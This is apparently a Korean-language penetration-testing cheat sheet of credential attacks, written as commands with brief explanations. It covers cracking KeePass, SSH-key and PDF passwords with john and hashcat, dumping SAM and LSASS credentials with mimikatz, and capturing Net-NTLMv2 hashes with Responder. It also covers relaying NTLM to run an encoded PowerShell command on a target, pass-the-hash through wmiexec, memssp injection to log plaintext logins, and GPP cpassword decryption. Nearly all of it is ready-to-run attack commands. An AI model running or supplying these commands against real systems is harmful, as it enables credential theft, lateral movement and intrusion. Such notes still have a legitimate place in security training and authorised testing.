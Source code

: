 # KeePass Password Cracking

``` powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

- C 드라이브 전체에서 `.kdbx` 확장자를 가진 파일을 재귀적으로 검색.
- `-ErrorAction SilentlyContinue` 옵션은 접근 권한 오류 메시지를 숨김.

``` bash
keepass2john Database.kdbx > keepass.hash
```
``` bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
```
login with master password
```
---
# Keepass Dump file Cracking
```bash
python3 poc.py <file.dmp>

# sudo apt install keepassxc
keepassxc <file.kdbx>
```
- https://github.com/matro7sh/keepass-dump-masterkey
---
 
# SSH Private Key Passphrase Cracking

``` bash
ssh2john id_rsa > ssh.hash
```
``` bash
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
``` bash
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

---

# Cracking NTLM
``` bash
.\mimikatz.exe
```
``` bash
privilege::debug
```

- `privilege::debug` 명령은 디버그 권한을 활성화합니다.
- 이 권한이 있어야 LSASS 프로세스에 접근하여 자격 증명을 덤프할 수
    있습니다.

``` bash
token::elevate
```

-   토큰을 SYSTEM 권한으로 상승시켜, 보안 제한 없이 시스템 자원에
    접근합니다.


``` bash
lsadump::sam
```

-   SAM(Security Account Manager) 데이터베이스에서 사용자 계정의 해시를
    추출합니다.
-   출력된 해시는 `USERNAME:RID:LM_HASH:NTLM_HASH::: 형식`입니다.


``` bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
# Cracking Net-NTLMv2
``` bash
sudo responder -I tap0
```

-   Responder는 NTLM 인증 요청을 가로채서 해시를 수집하는
    도구입니다.
-   `-I tap0` : 사용할 네트워크 인터페이스 지정 (예: `eth0`, `wlan0`,
    `tap0`)
- Responder는 SMB, HTTP, FTP 등 프로토콜을 이용한 인증 요청에
응답해, 클라이언트가 보낸 Net-NTLMv2 해시를 캡처합니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유 경로에 접근하게 하여 인증 절차를 유도합니다.
-   이 과정에서 NTLM 인증이 발생하며, Responder가 해시를 가로챕니다.

> 예: 사용자가 `dir \\192.168.119.2\test` 명령을 실행하면, SMB 인증
> 요청이 발생.

``` bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
---
# Relaying Net-NTLMv2
``` bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

-   **impacket-ntlmrelayx**: NTLM 인증을 다른 서비스로 릴레이하여 권한을
    획득하는 도구입니다.
-   `--no-http-server` : HTTP 서버 기능 비활성화 (SMB 릴레이만 사용)
-   `-smb2support` : SMBv2 프로토콜 지원 활성화
-   `-t 192.168.50.212` : 릴레이할 타겟 서버 IP
-   `-c "powershell -enc ..."` : 인증 성공 시 실행할 명령 (여기서는
    Base64 인코딩된 PowerShell 명령)

- 공격자는 Net-NTLMv2 인증 요청을 가로채서, 이를 SMB 서비스가 열려 있는
다른 타겟으로 전달합니다.
타겟이 해당 인증을 신뢰하면, 명령 실행 권한을 얻게 됩니다.

``` bash
dir \\192.168.119.2\test
```

-   피해자 시스템에서 네트워크 공유에 접근하게 하여 SMB 인증을
    유도합니다.
-   인증 요청은 공격자의 시스템을 거쳐 릴레이 타겟(`192.168.50.212`)로
    전달됩니다.
-   인증이 성공하면 지정한 PowerShell 명령이 타겟에서 실행됩니다.

---
# Windows Credential Guard enabled
## 1. 시스템 정보 확인

``` powershell
Get-ComputerInfo
```

-   현재 시스템의 OS 버전, 빌드 번호, 보안 설정 등을 확인합니다.
-   Credential Guard가 활성화되어 있는지 파악하는 데 도움이 됩니다.

## 2. Mimikatz 실행

``` bash
.\mimikatz.exe
```

## 3. 디버그 권한 획득

``` bash
privilege::debug
```

-   SeDebugPrivilege를 활성화하여 LSASS 등의 민감한 프로세스에 접근할 수
    있도록 합니다.
-   관리자 권한 필요.

## 4. 자격 증명 추출 시도

``` bash
sekurlsa::logonpasswords
```

-   현재 로그인된 세션의 사용자 이름, 도메인, 해시, 평문 비밀번호 등을
    덤프합니다.

-   **주의**: Credential Guard 활성화 시 평문 비밀번호 추출이 제한될 수
    있습니다.


## 5. Impacket을 이용한 원격 명령 실행

``` bash
impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
```


## 6. MemSSP(메모리 보안 지원 공급자) 주입

``` bash
misc::memssp
```

-   Mimikatz의 `memssp` 모듈은 LSASS에 SSP(Security Support Provider)를
    주입하여 이후 로그인 자격 증명을 `mimilsa.log` 파일에 기록하게
    합니다.
-   새로운 로그인 시도가 발생하면 해당 자격 증명이 평문으로 로깅됩니다.

------------------------------------------------------------------------

## 7. 캡처된 자격 증명 확인

``` bash
type C:\Windows\System32\mimilsa.log
```

-   MemSSP로 캡처된 평문 자격 증명을 확인합니다.
---
# Cracking pdf password
```bash
pdf2john Infrastructure.pdf > pdf.hash

john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 pdf.hash
```
---
# PPK to PEM
```bash
puttygen <file.ppk> -O private-openssh -o <file.pem>

ssh -i <file.pem> host@local
```
---
# cpassword(groups.xml)
```bash
# pip install gpp-decrypt
gpp-decrypt -f <file>
```

